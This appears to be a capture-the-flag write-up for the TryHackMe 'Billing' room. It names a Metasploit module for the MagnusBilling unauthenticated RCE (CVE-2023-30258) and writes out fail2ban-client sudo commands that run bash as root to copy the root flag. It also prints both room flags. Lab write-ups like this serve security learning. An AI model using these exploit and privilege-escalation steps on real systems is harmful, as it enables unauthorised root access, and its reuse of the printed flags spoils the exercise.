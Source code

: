 **Room:** [https://tryhackme.com/room/billing](https://tryhackme.com/room/billing)

![](https://miro.medium.com/v2/resize:fit:875/1*p1n1ts_iMeiuqXjZFVXTAQ.png)

# Quick Hints for “Billing” Room

First, add the target IP to your `/etc/hosts` file as `billing.thm`. When you visit the IP in a browser, it automatically redirects to the application, but adding it to hosts helps with later steps.

Check `robots.txt` — you’ll find the path to the application there.

I ran `ffuf` with `common.txt` for directory fuzzing but found nothing interesting. However, searching Google for a CVE on the web app led me to a known exploit for MagnusBilling:  
[Rapid7 Exploit - magnusbilling_unauth_rce_cve_2023_30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)

They even have a Metasploit module ready to use:

msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

Just use it, and after exploiting, visit the shell and go to `/home/magnus`.

![](https://miro.medium.com/v2/resize:fit:875/1*QFu_IOXA054ngNGnzjtc-Q.png)

## Privilege Escalation

We’re allowed to run`fail2ban-client` as sudo. So, use it to execute commands as root and grab the root flag:

```
sudo /usr/bin/fail2ban-client restart  
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"  
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1  
cat /tmp/root.txt
```

This copies the root flag to `/tmp/root.txt` with full permissions so you can read it easily.

![](https://miro.medium.com/v2/resize:fit:875/1*9-0zPKfYQ-UmHDkpA5X2uw.png)

**How I figured this out:**  
I used ChatGPT and referred to this detailed article for a better understanding: [https://juggernaut-sec.com/fail2ban-lpe/](https://juggernaut-sec.com/fail2ban-lpe/)

**What is user.txt?**

> THM{4a6831d5f124b25eefb1e92e0f0da4ca}

**What is root.txt?**

> THM{33ad5b530e71a172648f424ec23fae60}

![](https://miro.medium.com/v2/resize:fit:875/1*_FzeESyQcQ-3qDC_U2Rksg.png)